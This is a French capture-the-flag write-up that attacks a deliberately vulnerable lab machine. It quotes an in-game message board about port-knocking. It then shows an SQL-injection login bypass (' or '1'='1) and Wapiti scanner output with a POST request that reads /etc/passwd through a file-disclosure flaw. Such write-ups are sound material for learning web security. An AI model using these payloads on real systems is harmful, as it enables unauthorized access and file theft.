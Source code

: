 Pour le moment je n'utilise pas `sqlmap`. En effet si on rentre l'utilisateur `admin` et le mot de passe `' or '1'='1` on se retrouve directement connecté avec un utilisateur nommé `alamo`.

La page d'index reçoit un paramètre page qui contient le nom d'un fichier PHP. Par exemple avec http://192.168.242.135/?page=messageboard.php (l'un des liens) on trouve une discussion :

> **jjames:**(2011-11-17 07:06:25)  
> I'm having problems connecting to the ssh server. I keep getting a Connection refused error. Is there a problem I don't know about???
> 
> **ltorvalds:**(2011-11-17 08:03:15)  
> Check your email. There is no problem with the server or the system. As of late we have been experiencing an increased occurance of brute force attacks on our ssh server. In an attempt to stop this we have implemented a port knocking system using knockknock. A seperate profile has been generated for each user of this system. You will, however, need to install knockknock on your local system. It can be downloaded [here](http://192.168.242.135/misc/knockknock-0.7.tar.gz) or from http://www.thoughtcrime.org/software/knockknock/. If you have any problem with installation or getting knockknock to work just drop me an email or ask here.
> 
> **rtmorris:**(2011-11-17 10:14:11)  
> thanks gary :)
> 
> **jjames:**(2011-11-17 13:36:19)  
> Okay thanks Linus, I've got it working now.
> 
> **jdraper:**(2011-11-17 19:54:31)  
> I've got knockknock installed but I'm not exactly sure what to do with the profile.tar.gz file I got in the mail, could anyone help me out?
> 
> **ltorvalds:**(2011-11-18 08:04:51)  
> First create a knockknock dir in your home dir with 'mkdir ~/.knockknock/', then create a folder inside the .knockknock dir called either the ip of this machine or the domain. I use 'mkdir ~/.knockknock/nakimura.example.net'. Finally extract the tarball you recieved in the mail to that directory.

Il est visiblement question de port-knocking. On verra si on a besoin d'en arriver là. Je remarque aussi que le bypass de l'authentification nous a défini un cookie nommé `uid` qui a dans notre cas la valeur `1`.

Je peux attaquer d'autres scripts de la partie authentifiée en passant le cookie à Wapiti. L'un des scripts semble être un bon candidat à un directory traversal :

```shellsession
$ wapiti -u "http://192.168.242.135/index.php?page=ssp.php" -H "Cookie: uid=1;" --scope url -v2 --color --detailed-report
--- snip ---
---
Linux local file disclosure vulnerability in http://192.168.242.135/index.php via injection in the parameter text_file_name
Evil request:
    POST /index.php?page=ssp.php HTTP/1.1
    host: 192.168.242.135
    connection: keep-alive
    user-agent: Mozilla/5.0 (Windows NT 6.1; rv:45.0) Gecko/20100101 Firefox/45.0
    accept-language: en-US
    accept-encoding: gzip, deflate, br
    accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    cookie: uid=1;
    content-type: application/x-www-form-urlencoded
    referer: http://192.168.242.135/index.php?page=ssp.php
    content-length: 45
    Content-Type: application/x-www-form-urlencoded

    B=Display%20File&text_file_name=%2Fetc%2Fpasswd
---
```
